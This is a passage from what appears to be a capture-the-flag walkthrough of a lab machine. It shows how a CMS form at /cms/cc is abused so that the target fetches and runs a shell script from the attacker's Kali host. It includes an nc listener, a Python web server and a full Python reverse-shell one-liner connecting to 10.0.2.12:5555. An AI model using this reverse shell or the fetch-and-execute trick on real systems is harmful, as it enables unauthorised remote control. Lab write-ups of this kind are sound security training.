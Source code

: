 A new directory ```/cms/cc``` is shown.  Go to that directory and a new page is displayed.  

![](https://raw.githubusercontent.com/samiux/images/master/broken-2020-1/007.png)

Try to enter ```127.0.0.1``` and port ```80``` to the page and you will see the error message ```Server can't reach the script```.  

![](https://raw.githubusercontent.com/samiux/images/master/broken-2020-1/009.png)  

After thinking for a while, why not try to enter my Kali's IP address?

```bash
nc -lvp 4444
```

![](https://raw.githubusercontent.com/samiux/images/master/broken-2020-1/010.png)  

```bash
samiux@kali:~$ nc -lvp 4444
[sudo] password for samiux: 
listening on [any] 99 ...
10.0.2.27: inverse host lookup failed: Unknown host
connect to [10.0.2.12] from (UNKNOWN) [10.0.2.27] 55128
GET /4f367c82884fdafb83166308839e37a4.sh HTTP/1.0
Host: 10.0.2.12:4444
Connection: close

id
samiux@kali:~$ 
```

From the result, the exploit requires to access ```4f367c82884fdafb83166308839e37a4.sh``` at my Kali box.  Then setup a web server at my Kali box and set ```4f367c82884fdafb83166308839e37a4.sh``` to run ```ls -la```.

* (Update) The file name ```4f367c82884fdafb83166308839e37a4.sh``` will be different on every box.  

```bash
python3 -m http.server 4444
```

```bash
nano 4f367c82884fdafb83166308839e37a4.sh
ls -la
```

![](https://raw.githubusercontent.com/samiux/images/master/broken-2020-1/011.png)  

It works as expected.  Try to use bash to run the reverse shell but it does not work properly.  The bash is at ```/usr/bin/bash```.  Then change to Python to port a reverse shell.

```bash
nano 4f367c82884fdafb83166308839e37a4.sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.12",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/usr/bin/bash","-i"]);'
```
